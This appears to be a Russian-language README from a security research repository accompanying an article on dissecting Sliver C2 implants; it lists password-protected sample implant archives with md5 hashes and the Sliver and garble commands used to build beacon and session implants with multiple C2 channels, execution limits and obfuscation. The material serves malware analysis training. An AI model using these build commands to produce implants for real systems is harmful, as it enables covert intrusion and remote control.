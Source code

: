 # Импланты Sliver под микроскопом: извлечение конфига и других полезных данных 

Ссылка на статью: [blogpost url](www.google.ru)


Здесь представлены искусственно сгенерированные нами импланты для самостоятельного изучения и отработки описанных в статье техник.

Пароль на все архивы: `infected`

В архивах импланты с md5-именем.

## 1. `sliver_old_win_386_beacon_2http_c2.zip`

Имплант старой версии 1.5.22 (с2 расшифровывается в `runtime_doInit`) с двумя http C2 с обфускацией.

**md5**

```
ffea0a01b43af45ba6eab7b05e467181
```

**Команда для генерации**

```bash
generate beacon -a 386 --http "10.10.10.1,10.10.10.2" --name sliver_win_386_beacon_2httpc2_for_education_only
```

## 2. `sliver_win_amd64_beacon_6c2_with_limits.zip`

Имплант версии 1.5.41 с множественными C2 и со всеми видами ограничений.

**md5**

```
5a8b4a7e69169d16447674863ffcc158
```

**Команда для генерации**

```bash
generate beacon -a amd64 --http "http://10.10.10.1,http://10.10.10.2" --mtls "10.10.10.3,10.10.10.4" --wg "10.10.10.5" --dns "10.10.10.6" --limit-datetime "2023-11-14T07:00:00.000Z" --limit-domainjoined --limit-fileexists "C:\Windows\Temp\flag_file.bin" --limit-hostname "sliver-implant-test-vm" --limit-locale "en-US" --limit-username "test-user" --name sliver_win_amd64_beacon_6c2_with_limits_for_education_only
```

## 3. `sliver_win_amd64_session_namedpipe.zip`

Session имплант версии 1.5.41 с named pipe.

**md5**

```
56cbb186988de40620af222e52e673bd
```

**Команда для генерации**

```bash
generate -a amd64 --named-pipe "10.10.10.1/pipe/sliver_pipe" --name sliver_win_amd64_session_namedpipe_for_education_only
```

## 4. `sliver_win_amd64_session_mtls_c2_debug.zip`

Имплант версии 1.5.41, собранный в debug-режиме, с mtls C2.

**md5**

```
bed628f5abbc502136a8e2ac501b1e70
```

**Команда для генерации**

```bash
generate -a amd64 --mtls "10.10.10.1" --debug --name sliver_win_amd64_session_mtlsc2_debug_for_education_only
```

## 5. `sliver_win_amd64_beacon_6c2_with_limits_not_stripped_wo_garble.zip`

Необфусцированная not stripped версия импланта [ `5a8b4a7e69169d16447674863ffcc158` (архив `sliver_win_amd64_beacon_6c2_with_limits.zip`)](https://github.com/4RAYS-by-SOLAR/blog/tree/main/20231114_sliver_under_microscope#2-sliver_win_amd64_beacon_6c2_with_limitszip).

**md5**

```
672473eedf84386e35740cd1d793c7df
```

**Команды для генерации**

```bash
cd ~user/.sliver/slivers/windows/amd64/sliver_win_amd64_session_mtlsc2_debug_for_education_only/src/github.com/bishopfox/sliver

GOOS=windows GOARCH=amd64 PATH=$PATH:/home/user/.sliver/go/bin/ go build -trimpath -o sliver_win_amd64_beacon_6c2_with_limits_not_stripped_wo_garble.exe
```

## 6. `src_sliver_win_amd64_beacon_6c2_with_limits.zip`

Исходный код импланта [ `5a8b4a7e69169d16447674863ffcc158` (архив `sliver_win_amd64_beacon_6c2_with_limits.zip`)](https://github.com/4RAYS-by-SOLAR/blog/tree/main/20231114_sliver_under_microscope#2-sliver_win_amd64_beacon_6c2_with_limitszip), обфусцированный `garble`.

**md5**

```
5a8b4a7e69169d16447674863ffcc158
```

**Команды для генерации:**

```bash
cd ~user/.sliver/slivers/windows/amd64/sliver_win_amd64_beacon_6c2_with_limits/src/github.com/bishopfox/sliver

GOOS=windows GOARCH=amd64 PATH=$PATH:/home/user/.sliver/go/bin garble -seed=random -literals -debugdir ~/Downloads/garbled_source_code_sliver_win_amd64_beacon_6c2_with_limits build -o sliver_win_amd64_beacon_6c2_with_limits2.exe
```


